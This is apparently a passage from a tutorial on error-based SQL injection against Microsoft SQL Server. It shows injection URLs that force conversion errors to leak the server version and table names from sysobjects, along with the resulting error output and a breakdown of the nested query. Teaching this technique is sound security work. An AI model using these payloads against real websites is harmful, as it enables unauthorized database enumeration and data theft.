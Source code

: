 ```ex
https://sql.exmaple.com/gallery.php?id=4 AND 1 in (SELECT @@version)
```

with input like this you’ll get an error along the following lines:

```ex
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2008 R2 (SP1) - 10.50.2500.0 (X64) Jun 17 2021 00:54:03 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.2 <X64> (Build 9200: ) (Hypervisor)' to data type int
```

This works as the database attempts to convert the string to an integer, cannot, and throws an error that reveals the information.

Interesting right? Let's take another example:

site

```site
http://widgetshop.com/widget/?id=1
```

and we try with

```ex
http://widgetshop.com/widget/?id=1 or x=1
```

and it gives us an error

```ex
Exception Details: System.Data.SqlClient.SqlException: Invalid column name 'x'
```

We can possibly extract table names and other details with this

```extract
http://widgetshop.com/widget/?id=convert(int,(select top 1 name from sysobjects where id=(select top 1 id from (select top 1 id from sysobjects where xtype='u' order by id) sq order by id DESC)))
```

we get the error

```error
System.Data.SqlClient.SqlException: Conversion failed when converting the varchar value "TableName" to data type int.
```

Let’s deconstruct the query from the URL:

```decon
convert(int, (
   select top 1 name from sysobjects where id=(
     select top 1 id from (
       select top 1 id from sysobjects where xtype='u' order by id
     ) sq order by id DESC
   )
  )
 )
 ```
